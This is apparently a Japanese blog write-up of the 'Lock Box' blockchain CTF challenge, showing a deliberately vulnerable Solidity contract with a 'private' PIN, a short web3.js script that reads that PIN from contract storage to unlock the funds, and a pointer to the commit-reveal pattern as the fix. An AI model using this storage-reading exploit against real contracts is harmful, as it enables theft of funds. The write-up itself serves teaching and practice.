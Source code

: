 +++
title = "Security Innovation Blockchain CTF - Lock Box"
date = "2022-05-30"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Lock Box](https://blockchain-ctf.securityinnovation.com/#/game/8)という問題を解きました。

#### 問題

問題を開くと、以下のような画面が出てきます。

ピンを入力してUnlockボタンを押すと、スマートコントラクトが保有している資産を取得できるというアプリのようです。

<img src=./dapps.png><br>

#### ソースコードを読む

constructorではアンロックするためのpinが生成されており、unlock関数で資金を送金するというコードのようです。

unlock関数はpinを受け取り、constructorで生成したpinと同一であれば、資金が送金されるようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract Lockbox1 is CtfFramework{

    uint256 private pin;

    constructor(address _ctfLauncher, address _player) public payable CtfFramework(_ctfLauncher, _player) {
        pin = now%10000;
    }

    function unlock(uint256 _pin) external ctf{
        require(pin == _pin, "Incorrect PIN");
        msg.sender.transfer(address(this).balance);
    }
}
```

#### エクスプロイト

この問題を解くには、`uint256 private pin`として格納されているpinを取得出来る必要があります。
この変数はブロックチェーン上に保存されるものなので、読み取り可能です。

web3.jsを使って書いたエクスプロイトは以下の通りです。
`getStorageAt`という関数を使ってpinを取り出しています。


```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
web3.eth.getStorageAt("0x258e6ed1bebd27f05dc466993edd9720ceb3877a", 1).then(storage => console.log(parseInt(storage)))
```

#### どう実装されているべきか

Commit-Revealというパターンを使うことで、ブロックチェーンに機密を保存出来るようです。

- https://karl.tech/learning-solidity-part-2-voting/
- https://medium.com/layerx-jp/smart-contract-design-pattern-34a6401fe743
